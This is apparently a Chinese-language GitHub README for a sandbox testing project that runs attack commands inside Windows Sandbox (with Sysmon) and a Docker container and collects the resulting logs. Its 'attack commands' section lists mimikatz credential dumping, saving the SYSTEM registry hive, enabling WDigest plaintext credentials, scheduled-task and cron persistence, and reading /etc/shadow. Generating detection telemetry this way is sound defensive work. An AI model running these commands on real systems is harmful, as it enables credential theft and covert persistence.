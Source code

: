 # sandbox_test

只需要下載src和test資料夾即可，project環境為windows 10 22H2 pro，需要開啟windows sandbox功能和docker

(如果要看log，可以下載log.xml和container_syslog.log)

## 執行code
如果想要用pytest測試的話，使用以下架構:
```
-root(root資料夾不限名稱)
    -src
        -SandboxFiles
            mimikatz.exe
            Sysmon64.exe
            sysmonconfig.xml: 
            (sandbox.wsb): 由code自動產生
            (install_and_run.bat): 由code自動產生
            (log.xml): 由code自動產生
        Dockerfile
        sand.py
        (container_syslog.log): 由code自動產生
    -test
        test_sand_unit.py
        test_sand_integrated.py
```
在root資料夾下執行```pytest -vv --cov -p no:warnings```

如果要執行sand.py，把最後兩行註解取消掉再執行

(Windows sandbox如果出現強制斷線，屬於正常現象，直接點否即可，不影響執行)

## 攻擊指令

windows
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
copy %USERPROFILE%\Desktop\SandboxFiles\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles . /H /Y

reg save HKLM\SYSTEM C:\\system.save

reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
     
setlocal enabledelayedexpansion

:: Get the current time
for /f "tokens=1-4 delims=:.," %%a in ("%time%") do (
    set /a HH=%%a, MM=%%b, SS=%%c, FF=%%d
)

:: Add 10 seconds
set /a MM+=1
if !MM! geq 60 (
    set /a MM-=60
    set /a HH+=1
    if !HH! geq 24 set /a HH-=24
)

:: Format the time with leading zeros
if !HH! lss 10 set HH=0!HH!
if !MM! lss 10 set MM=0!MM!
echo !HH!:!MM!
:: Create the scheduled task
schtasks /create /tn "MyTask" /tr "notepad.exe" /sc once /st !HH!:!MM! /f
```

linux
```
whoami
echo 'whoami'> tmp
cp tmp tmp2
sh < tmp2
cat /etc/shadow
echo \"echo hash_value > name.out\" | at now + 1 minute
echo \"*/2 * * * * root whoami > username\" >> /etc/crontab
```

## 有關log

log.xml是windows的log

container_syslog.log是linux的log

另外，執行code後，log的位置分別是```root/src/SandboxFiles/log.xml```和```root/src/container_syslog.log```
